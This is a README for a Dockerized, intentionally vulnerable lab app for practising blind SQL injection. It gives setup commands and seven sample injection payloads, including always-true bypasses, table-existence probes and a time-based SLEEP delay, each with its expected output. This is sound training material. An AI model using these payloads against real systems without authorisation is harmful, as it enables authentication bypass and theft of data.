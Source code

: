 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

##### 1. Bypass Authentication Using Always-True Condition

##### Query:
```
1' OR '1'='1' -- 
```

##### Explanation:
This query leverages an always-true condition (`'1'='1'`) to bypass checks and fetch any available record in the database.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 2. Validating the Query with Always-True Condition

##### Query:
```
1' AND '1'='1' -- 
```

##### Explanation:
This query tests whether a condition that is always true (`'1'='1'`) correctly processes and confirms the result.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 3. Testing for Always-False Condition

##### Query:
```
1' AND '1'='2' -- 
```

##### Explanation:
This query uses an always-false condition (`'1'='2'`) to validate that no result is returned when the condition fails.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 4. Fetching All Records Without Conditions

##### Query:
```
1' OR 1=1 -- 
```

##### Explanation:
This query bypasses any filter by using the logical condition `1=1`, which is always true.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 5. Testing the Presence of a Table (Example: `users`)

##### Query:
```
1' AND EXISTS(SELECT 1 FROM users) -- 
```

##### Explanation:
This query checks whether a table named `users` exists in the database by using the SQL `EXISTS` function.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 6. Testing for Non-Existing Table or Condition

##### Query:
```
1' AND EXISTS(SELECT 1 FROM non_existing_table) -- 
```

##### Explanation:
This query attempts to check for a non-existing table (`non_existing_table`) and should fail, demonstrating the absence of the table.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 7. Delay-Based Blind SQL Injection

##### Query (If Supported):
```
1' AND IF(1=1, SLEEP(3), 0) -- 
```

##### Explanation:
This query introduces a delay (`SLEEP(3)`) when the condition (`1=1`) is true, making it useful for blind SQL injection.

##### Expected Behavior:
- The response is delayed by 3 seconds if the condition is true.
- No delay occurs if the condition is false.


---


### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
